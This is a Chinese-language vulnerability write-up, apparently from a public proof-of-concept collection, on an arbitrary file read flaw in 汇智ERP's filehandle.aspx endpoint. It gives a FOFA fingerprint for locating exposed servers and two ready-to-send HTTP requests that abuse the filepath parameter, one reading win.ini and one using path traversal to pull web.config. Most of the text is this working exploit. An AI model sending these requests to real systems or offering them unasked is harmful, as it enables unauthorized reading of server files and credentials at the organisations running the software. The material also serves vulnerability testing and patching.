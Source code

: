 # 汇智ERP filehandle存在任意文件读取漏洞

# 一、漏洞简介
汇智ERP是一款由江阴汇智软件技术有限公司开发的企业资源规划（ERP）软件，旨在通过信息化手段帮助企业优化业务流程，提升管理效率，增强综合竞争力。适用于各类企业，包括大型企业、中小型企业以及集团化企业。根据企业规模和业务需求，汇智ERP提供了不同的版本（如集团版和标准版），以满足企业的个性化需求。汇智ERP filehandle存在任意文件读取漏洞

# 二、影响版本
+ 汇智ERP

# 三、资产测绘
+ fofa`icon_hash="-642591392"`
+ 特征

![1721894686519-5cc4f9a9-8678-47d5-9542-2110734d50f0.png](./img/LRh-q9BuPwVokhJN/1721894686519-5cc4f9a9-8678-47d5-9542-2110734d50f0-978003.png)

# 四、漏洞复现
```plain
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1721894837449-b25e1e44-568b-4cd8-8659-aa625a784dbd.png](./img/LRh-q9BuPwVokhJN/1721894837449-b25e1e44-568b-4cd8-8659-aa625a784dbd-669353.png)

```plain
GET /nssys/common/filehandle.aspx?filepath=../../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1721894900847-10896155-e4aa-4f6a-a3e3-cb71ee6773de.png](./img/LRh-q9BuPwVokhJN/1721894900847-10896155-e4aa-4f6a-a3e3-cb71ee6773de-934998.png)



> 更新: 2024-08-12 17:29:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rpkrxscac0dp5hda>